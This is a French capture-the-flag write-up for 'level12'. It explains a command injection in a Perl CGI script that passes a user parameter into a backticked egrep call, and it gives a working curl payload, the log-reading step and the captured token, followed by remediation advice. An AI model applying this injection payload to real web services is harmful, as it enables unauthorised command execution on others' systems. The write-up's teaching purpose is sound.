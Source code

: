 Voici le README adapté au même format que précédemment :

---

## Rapport de Vulnérabilité : Injection de Commande Perl via CGI

### Description

Cette vulnérabilité exploite une injection de commandes via un script Perl CGI (`level12.pl`) accessible localement via un serveur web tournant sur le port 4646. Le script utilise les entrées utilisateur sans filtrage adéquat dans une commande système (`egrep`). En exploitant cette vulnérabilité, il est possible d’exécuter arbitrairement des commandes shell avec les privilèges de l’utilisateur flag12 et ainsi récupérer le token pour passer au niveau suivant.

---

### Comment Exploiter la Faille

**Étape 1 : Analyse du script vulnérable**
Le script Perl utilise la fonction suivante :

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

* `$xx` provient directement d’un paramètre utilisateur via CGI (`param("x")`), sans filtrage suffisant.
* Ceci permet l’injection de commandes arbitraires en utilisant des backticks ou d'autres mécanismes d’exécution.

**Étape 2 : Préparation d'une requête malveillante**
Pour exécuter la commande `getflag`, il suffit d’envoyer une requête HTTP contenant une injection via le paramètre `x` :

```shell
ln -s /bin/getflag /tmp/GETFLAG

curl 'http://localhost:4646/level12.pl?x="%60/*/getflag>%262%60"'
```

* `%60` est le codage URL du caractère backtick (`` ` ``).
* `/*/getflag` contourne des restrictions de chemin pour appeler explicitement le binaire `getflag`.
* `>%262` redirige la sortie vers le flux d’erreurs standard (stderr, codé `%26` qui représente le caractère `&`).

**Étape 3 : Récupération du flag**
Le résultat du flag est enregistré dans les logs d’erreurs Apache. Affichez-les ainsi :

```shell
cat /var/log/apache2/error.log
```

Vous obtenez alors le flag :

```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**Étape 4 : Passage au niveau suivant**
Utilisez ce token pour passer à l'utilisateur suivant :

```shell
su level13
Mot de passe : g1qKMiRpXf53AWhDaU7FEkczr
```

---

### Comment Résoudre la Faille

1. **Validation stricte des entrées utilisateur :**

   * Toujours valider et filtrer les entrées CGI avant de les utiliser dans une commande système.
   * Utilisez des modules Perl spécifiques qui assurent l’échappement approprié des caractères spéciaux (par exemple, `quotemeta()` ou équivalents).

2. **Ne pas appeler directement des commandes shell avec entrées non validées :**

   * Évitez l’utilisation de backticks sur les entrées utilisateur.
   * Si l’appel est nécessaire, utilisez les formes sécurisées d’exécution de commande (par exemple, `open()` avec liste de paramètres explicite).

3. **Séparer les privilèges :**

   * N’exécutez pas les scripts CGI avec des privilèges élevés inutilement.

---

### Conclusion

Cette vulnérabilité souligne l’importance critique d’un contrôle rigoureux des entrées utilisateurs lorsqu'elles sont utilisées dans des commandes système. L’absence de filtrage permet facilement à un attaquant d’exécuter des commandes arbitraires avec des privilèges élevés, conduisant à une escalade rapide des privilèges.
